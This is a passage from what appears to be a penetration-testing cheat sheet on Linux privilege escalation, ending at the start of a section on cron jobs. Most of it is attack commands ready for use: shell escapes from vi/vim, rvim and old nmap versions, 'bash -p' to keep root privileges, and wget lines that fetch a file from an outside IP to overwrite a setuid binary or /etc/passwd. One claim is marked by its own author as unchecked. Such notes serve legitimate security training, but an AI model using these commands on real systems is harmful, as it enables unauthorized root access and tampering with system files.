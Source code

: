 #### vi/vim {#vivim}

```text
:shell

:set shell=/bin/bash:shell    
:!bash
```

#### rvim {#rvim}

```text
:diffpatch $(sh <&2 >&2) 

:py import os
:py os.system("/bin/bash")
```

[https://github.com/vim/vim/issues/1543](https://github.com/vim/vim/issues/1543)

#### wget

Any file that is overwritten by wget will maintain it's permissions \(double-check this\), so it's generally a good idea to overwrite either a setuid file that is not key for the machine to continue execution, or to overwrite something like `/etc/passwd`

```text
wget <ip>:<file> -O setuid_file
wget -i /etc/passwd
```

#### nmap 2.0 - 5.21

```text
nmap --interactive
!sh
```

#### bash

```text
bash -p
```



#### References

[https://stackoverflow.com/questions/46897570/why-do-files-in-proc-self-end-up-being-owned-by-root-if-a-program-has-its-setui](https://stackoverflow.com/questions/46897570/why-do-files-in-proc-self-end-up-being-owned-by-root-if-a-program-has-its-setui)

## Cron Jobs

Very simply, a cronjob is a task set on a timer, for example every 15 minutes or every 3rd day of the month. These tasks offer a whole avenue for exploitation as they are often quickly coded and can introduce all sorts of vulnerabilities.
